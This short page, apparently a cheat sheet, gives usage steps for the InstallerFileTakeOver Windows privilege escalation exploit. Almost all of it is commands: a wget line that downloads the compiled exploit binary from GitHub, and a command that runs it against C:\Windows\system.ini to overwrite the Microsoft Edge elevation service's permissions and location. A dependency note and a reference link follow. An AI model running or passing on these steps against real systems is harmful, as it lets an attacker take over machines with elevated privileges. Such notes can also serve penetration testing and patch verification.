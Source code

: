 ### Download
```
wget https://github.com/klinix5/InstallerFileTakeOver/blob/main/InstallerFileTakeOver/Release/InstallerFileTakeOver.exe
```

### Execute and overwrite Microsoft Edge elevation service DACL and overwrite service location
```
.\InstallerFileTakeOver.exe C:\Windows\system.ini
```

### Additional informations
```
The exploit needs an additional file (VisualC-Runtime) inside the same directory (https://aka.ms/vs/17/release/vc_redist.x86.exe).
```

### References
https://github.com/klinix5/InstallerFileTakeOver  

